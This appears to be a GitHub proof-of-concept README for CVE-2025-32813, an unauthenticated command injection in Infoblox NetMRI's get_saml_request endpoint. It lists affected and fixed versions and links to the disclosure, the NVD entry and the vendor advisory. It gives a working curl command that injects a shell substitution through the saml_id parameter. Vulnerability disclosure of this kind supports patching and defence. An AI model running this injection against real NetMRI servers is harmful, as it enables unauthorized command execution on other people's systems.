 # CVE-2025-32813: Infoblox NetMRI Unauthenticated Command Injection in get_saml_request

## Information
**Description:** This exploits an unauthenticated command injection in the get_saml_request endpoint of Infoblox NetMRI.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2025-32813  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2025-32813

## Proof-of-Concept Exploit
### Description
This exploit targets a command injection flaw via the 'saml_id' parameter in the get_saml_request endpoint.

### Usage/Exploitation
```
curl -k 'https://<NETMRI_HOST>/webui/application/get_saml_request?saml_id=1%26http://$(whoami)'
```

### Screenshot
![poc_image](poc.png)
